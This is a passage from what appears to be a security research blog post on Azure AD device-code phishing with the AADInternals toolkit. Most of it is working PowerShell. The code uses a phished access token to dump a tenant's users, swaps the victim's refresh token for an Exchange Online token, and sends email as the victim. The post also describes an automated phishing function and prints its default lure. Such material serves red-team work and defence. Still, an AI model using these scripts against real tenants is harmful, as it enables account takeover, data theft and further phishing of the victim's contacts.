 	# If we got response, all okay!
	if($response)
	{
		break # Exit the loop
	}
}
{{< /highlight>}}

Now we can use the access token to impersonate the victim:
{{< highlight powershell >}}
# Dump the tenant users to csv
Get-AADIntUsers -AccessToken $response.access_token | Export-Csv users.csv
{{< /highlight>}}

We can also get access tokens to other services using the refresh token as long as the client_id remains the same. 

The following script gets an access token for Exchange Online.

{{< highlight powershell >}}
# Create body for getting access token for Exchange Online
$body=@{
	"client_id" =     "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" =    "refresh_token"
	"scope" =         "openid"
	"resource" =      "https://outlook.office365.com"
	"refresh_token" = $response.refresh_token
}

$EXOresponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token" -Body $body -ErrorAction SilentlyContinue

# Send email as the victim
Send-AADIntOutlookMessage -AccessToken $EXOresponse.access_token -Recipient "another.wictim@target.org" -Subject "Overdue payment" -Message "Pay this <h2>asap!</h2>"
{{< /highlight>}}

# Using AADInternals for phishing

AADInternals (v0.4.4 or later) has an <a href="/aadinternals/#invoke-aadintphishing" target="_blank">Invoke-AADIntPhishing</a> function
which automates the phishing process.

The phishing message can be customised, the default message is following:

```
'<div>Hi!<br/>This is a message sent to you by someone who is using <a href="https://o365blog.com/aadinternals">AADInternals</a> phishing function. <br/><br/>Here is a <a href="{1}">link</a> you <b>should not click</b>.<br/><br/>If you still decide to do so, provide the following code when requested: <b>{0}</b>.</div>'
```
Default message in email:<br>
![Phishing email](/images/posts/phishing_11.png)
